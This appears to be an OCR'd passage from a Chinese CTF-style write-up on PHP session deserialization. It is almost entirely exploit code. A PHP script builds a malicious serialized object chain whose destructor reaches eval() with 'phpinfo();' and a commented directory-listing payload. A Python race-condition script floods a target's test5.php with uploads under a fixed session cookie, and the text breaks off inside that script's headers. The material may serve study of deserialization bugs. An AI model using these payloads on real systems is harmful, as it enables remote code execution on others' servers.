 ```php
构造恶意序列化语句

<?php
ini_set('session.serialize_handler', 'php_serialize');
session_start();
class Door{
    public $handle;
​
    function __construct() {
        $this->handle = new IP();
    }
​
    function __destruct() {
        $this->handle->action();
    }
}
class TimeNow {
    function action() {
        echo "你的访问时间:"."  ".date('Y-m-d H:i:s',time());
    }
}
​
class  IP{
    public $ip;
    function __construct() {
        //$this->ip='payload';
        $this->ip='phpinfo();';
        //$this->ip='print_r(scandir('/'));';
    }
    function action() {
        eval($this->ip);
    }
}
$a=new Door();
$b=serialize($a);
$c=addslashes($b);
$d=str_replace("O:4:","|O:4:",$c);
echo $d;
?>
```

```python
条件竞争

#coding=utf-8
import requests
import threading
import io
import sys
​
def exp(ip,port):
    
    f = io.BytesIO(b'a' * 1024 *1024*1)
    while True:
        et.wait()
        url = 'http://'+ip+':'+str(port)+'/test5.php'
        headers = {
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.94 Safari/537.36',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
        'Accept-Language': 'zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3',
        'DNT': '1',
        'Cookie': 'PHPSESSID=20190506',
        'Connection': 'close',
```